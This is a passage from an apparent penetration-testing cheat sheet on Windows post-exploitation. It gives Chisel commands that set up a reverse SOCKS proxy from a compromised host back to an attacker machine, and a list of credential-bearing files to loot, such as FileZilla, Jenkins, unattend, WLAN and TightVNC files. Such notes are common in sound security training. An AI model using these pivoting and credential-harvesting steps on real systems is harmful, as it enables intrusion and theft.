 ### Chisel proxying

If you need to proxy traffic over a compromised Windows machine, [Chisel](https://github.com/jpillora/chisel) (or [SharpChisel](https://github.com/shantanu561993/SharpChisel)) is a good choice. Chisel allows port forwarding, but my favorite technique is setting up a reverse SOCKS proxy on the target machine, allowing you to tunnel any traffic over the target system.

On our attacking machine (Linux in this case), we start a Chisel server on port 80 in reverse SOCKS5 mode.

```bash
sudo ./chisel server -p 80 --reverse --socks5
```

Then, on our compromised target system, we connect to this server and tell it to proxy all traffic over it via the reverse SOCKS5 tunnel.

```powershell
.\chisel.exe client 192.168.49.67:80 R:socks
```

A proxy is now open on port 1080 of our linux machine. We can now use e.g. ProxyChains to tunnel over the target system.

### Juicy files

There are lots of files that may contain interesting information. Tools like [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) or collections like [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) may help in identifying juicy files (for privesc or post-exploitation).

Below is a list of some files I have encountered to be of relevance. Check files based on the programs and/or services that are installed on the machine.

> In addition, don't forget to enumerate any local databases with `sqlcmd` or `Invoke-SqlCmd`!

```
# All user folders
## Limit this command if there are too many files ;)
tree /f /a C:\Users

# Web.config
C:\inetpub\www\*\web.config

# Unattend files
C:\Windows\Panther\Unattend.xml

# RDP config files
C:\ProgramData\Configs\

# Powershell scripts/config files
C:\Program Files\Windows PowerShell\

# PuTTy config
C:\Users\[USERNAME]\AppData\LocalLow\Microsoft\Putty

# FileZilla creds
C:\Users\[USERNAME]\AppData\Roaming\FileZilla\FileZilla.xml

# Jenkins creds (also check out the Windows vault, see above)
C:\Program Files\Jenkins\credentials.xml

# WLAN profiles
C:\ProgramData\Microsoft\Wlansvc\Profiles\*.xml

# TightVNC password (convert to Hex, then decrypt with e.g.: https://github.com/frizb/PasswordDecrypts)
```
